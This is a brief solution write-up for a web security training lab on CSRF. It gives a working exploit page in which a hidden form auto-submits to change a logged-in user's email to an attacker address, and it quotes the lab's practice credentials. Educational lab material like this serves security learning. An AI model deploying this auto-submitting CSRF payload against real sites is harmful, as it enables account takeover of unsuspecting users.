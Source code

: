 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

Remove CSRF token when changing email

```html
<form id="autosubmit" action="https://0ac400ae04d5c12f80c87b54004f0069.web-security-academy.net/my-account/change-email" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="email" type="hidden" value="some-other-email@attacker.com" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```